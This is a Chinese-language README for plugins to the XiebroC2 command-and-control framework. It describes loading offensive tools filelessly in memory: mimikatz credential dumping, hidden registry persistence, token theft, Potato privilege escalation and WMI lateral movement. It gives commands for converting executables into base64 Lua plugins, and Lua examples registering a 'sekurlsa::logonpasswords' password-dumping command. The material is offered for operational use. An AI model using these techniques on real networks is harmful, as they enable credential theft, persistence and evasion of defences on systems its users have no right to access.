

## 使用

```
git clone https://github.com/INotGreen/Xiebro-Plugins.git
```

Manage->Plugins->Load，加载main.lua即可

载入Sesion中你会得到更多得命令




## 工具

目前已经扩展下面的工具,全部采用无文件落地的方式进行内存加载

|                           工具                           |                             描述                             |
| :------------------------------------------------------: | :----------------------------------------------------------: |
|       [fscan](https://github.com/shadow1ng/fscan)        |      内网综合扫描工具，方便一键自动化、全方位漏扫扫描。      |
|    [mimikatz](https://github.com/gentilkiwi/mimikatz)    |      从内存中提取明文密码、哈希、PIN 码和 Kerberos 票证      |
|    [RegHide](https://github.com/outflanknl/SharpHide)    |                     添加隐藏注册表启动项                     |
|     [SharpKatz](https://github.com/b4rtik/SharpKatz)     |          mimikatz的C#版本，用于获取明文密码和dcsync          |
|   [SharpScan](https://github.com/INotGreen/SharpScan)    | 内网资产收集、探测主机存活、端口扫描、域控定位、文件搜索、密码爆破和账号枚举 |
| [SharpToken](https://github.com/BeichenDream/SharpToken) |  Token窃取，切换System和administrator权限，用于提权降权场景  |
|    [SweetPotato](https://github.com/CCob/SweetPotato)    |                 将服务器权限提升至System权限                 |
|    [SharpWMI](https://github.com/QAX-A-Team/sharpwmi)    |      基于135端口的横向移动工具，可以执行命令，上传文件       |
|  [BadPotato](https://github.com/BeichenDream/BadPotato)  |                 将服务器权限提升至System权限                 |
|  [GodPotato](https://github.com/BeichenDream/GodPotato)  |                 将服务器权限提升至System权限                 |


XiebroC2的插件做到极度的简洁化，几乎只需一行代码你就可以为它添加一个外部命令

用Convert.ps1脚本可以直接将C/C++/Go/rust/.net/Bin等PE直接转成lua脚本

```powershell
Import-Module .\Convert.ps1
```

```powershell
Convert-ExeToBase64Lua -i "C:\Users\admin\Desktop\mimikatz.exe" -o "mimikatz.lua" -Command "Mimikatz" -LoadModule "inline-execute" -Description "Get windows password credentials" -Usage "Mimikatz <args>"
```


参数解释

```lua
-i:            选择输入的文件
-o:            输出的文件
-Command:      命令的名称
-LoadModule:   加载模式
-Description:  描述
-Usage:        使用方法
```


用于添加外部命令的函数主要有两个，AddCommand_W和AddCommand_A的区别在于：AddCommand_A打包了exe的使用参数，例如你可以直接使用logonpassword ，可以这样：

```lua
AddCommand_A(
    "logonpasswords",                                      --命令名称
     mimikatz,                                            --Base64Compress
    "privilege::debug sekurlsa::logonpasswords exit",      --exe的参数
    "inline-execute",                                      --加载模式
    "Get password credentials on windows",                 --命令描述
    "logonpasswords"                                       --使用方法
);
```

如果不需要参数，则直接使用AddCommand_W

```lua
AddCommand_W(
    "mimikatz",
    mimikatz,
    "inline-execute",
    "Get password credentials on windows",
    "mimikatz <args>"
);
```


这里的LoadModule(加载模式)有四种

```lua
inline-execute                                     --内联加载C/C++/go/rust的exe文件
inline-execute-bin                                 --内联加载C/C++/go/rust的bin文件
inline-assembly	                                   --内联加载.net文件
execute-assembly                                   --Fork&&Run模式(创建子进程)进行内存加载.net文件
```


